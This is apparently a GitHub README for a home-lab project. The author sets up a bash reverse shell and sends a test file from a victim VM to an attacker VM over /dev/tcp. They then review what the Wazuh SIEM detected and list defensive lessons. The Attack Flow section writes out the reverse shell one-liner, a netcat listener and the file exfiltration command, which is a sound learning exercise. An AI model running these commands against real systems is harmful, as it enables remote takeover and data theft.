 ### ### Reverse Shell and File Exfiltration ### ###
Hello, thank you for checking out this project on my GitHub! If you have any suggestions, feedback, or just want to connect hit me up on LinkedIn!

### Project Overview ###
This project builds off my last one, where I performed an SSH brute force attack. This time, I’m focused on what an attacker might do after gaining access such as setting up a reverse shell and data exfiltration.

(To be clear: this isn’t full persistence as a real attacker will create scripts or schedule tasks to keep the backdoor alive even after reboots. What I did here is a manual and temporary version to help me understand how it works and it was still super useful to do)

### Setup (Victim VM) ###
* Ensured SSH was still running
* Created a file on the victim desktop called supersecret.txt with the content: “FLAG- Exfiltrated” (this file would be the target for exfiltration)

### Attack Flow ###
I used two terminals on my attacker VM:
Terminal 1: Reverse Shell Setup
* I SSH’ed into the victim using the credentials I got from the brute force attack last project
* I then created a file called “rev.sh” that contained the following “bash -i >& /dev/tcp/10.0.0.154/4444 0>&1”
    * This tells the victim to open a bash shell and connect back to my attacker machine on port 4444.
    * I made the script executable using: “chmod +x rev.sh”
    * I then stored the script in the victim's Downloads directory.

Terminal 2: Listening on Attacker
* Ran: “nc -lvnp 4444” to listen for the incoming shell.

Terminal 1: Triggering the Reverse Shell
* Back in Terminal 1 (SSH’ed from attacker to the victim), I ran: “bash rev.sh”
    * The connection was successful! Terminal 2 now gave me access to the victim shell.

Finding and Exfiltrating the File
* In Terminal 2 (connected to victim) I navigated to the victim's desktop to look for supersecret.txt
* I verified the file contents with: “cat supersecret.txt”
* Then I exfiltrated the file using: “cat /home/batman/Desktop/supersecret.txt > /dev/tcp/attacker IP/4444”
* I opened a third terminal on the attacker VM to confirm if the supersecret.txt file was sent to the attacker and it was!

### SIEM Detection (Wazuh) ###
After finishing, I checked Wazuh to see what was logged. Here's what I noticed:
* It detected on the victim VM:
    * Creation of “rev.sh”
    * “chmod +x rev.sh” being run 
    * Creation of supersecret.txt

* It did NOT detect:
    * Execution of rev.sh
    * File transfer of supersecret.txt over TCP using bash
(Screenshots below show these detections clearly.)

### Cleanup/Revert ###
* Deleted both rev.sh and supersecret.txt from the victim
* Disabled SSH on the victim machine

### Lessons Learned ###
* Visibility is everything. If defenders can’t see commands like bash -i or TCP connections to strange IPs, attackers can operate freely.
* This basic reverse shell was eye-opening as it showed how easy it is to lose control of a machine once access is gained and the important of reinforcing:
    * Strong passwords
    * EDR on endpoins
    * Proper logging (bash history, syscalls, network monitoring)

Personally: For me doing hands-on projects like this makes the MITRE ATT&CK framework click for me. I learn best by trying things, messing up, and figuring them out by go over whatI need to learn or improve on!
